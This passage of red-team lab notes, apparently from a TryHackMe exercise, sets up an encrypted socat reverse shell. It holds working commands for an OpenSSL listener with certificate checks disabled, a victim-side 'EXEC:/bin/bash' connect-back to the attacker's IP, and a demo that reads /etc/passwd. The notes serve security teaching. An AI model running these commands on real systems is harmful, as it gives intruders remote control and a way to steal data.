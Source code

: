 - The **Privacy Enhanced Mail (PEM)** `.pem` file requires the concatenation of the private key `.key` and the certificate `.crt` files.
- We can use `cat` to create our PEM file from the two files that we have just created:

```
$ cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
```


##### 2. Secondly, with the PEM file ready, we can start **listening** while using the key for encrypting the communication with the client:

```
$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
```


- If you are not familiar with `socat`, the options that we used are:

		- "-d -d" : provides some debugging data (fatal, error, warning, and notice messages)
		- "OPENSSL-LISTEN:<PORT_NUM>" : indicates that the connection will be encrypted using OPENSSL.
		- "cert=<PEM_FILE>" : provides the PEM file (certificate and private key) to establish the encrypted connection.
		- "verify=0" : disables checking peer's certificate.
		- "fork" : creates a sub-process to handle each new connection.

##### 3. Thirdly, on the victim system, beacon out to the listener:

```
$ socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash
```


##### Demonstration:

<u>From the Attacker's machine</u>:

`$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt`

`$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT`

![](/assets/img/Pasted image 20230126180156.png)


<u>From the Victim's machine</u>:

```
pentester@target$ socat OPENSSL:10.10.222.189:4443,verify=0 EXEC:/bin/bash
```


<u>Running 'cat /etc/passwd' on the Attacker's machine</u>:

```
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT 
[...]
2022/02/24 15:54:28 socat[7620] N starting data transfer loop with FDs [7,7] and [1,1]

cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin 
[...]
```
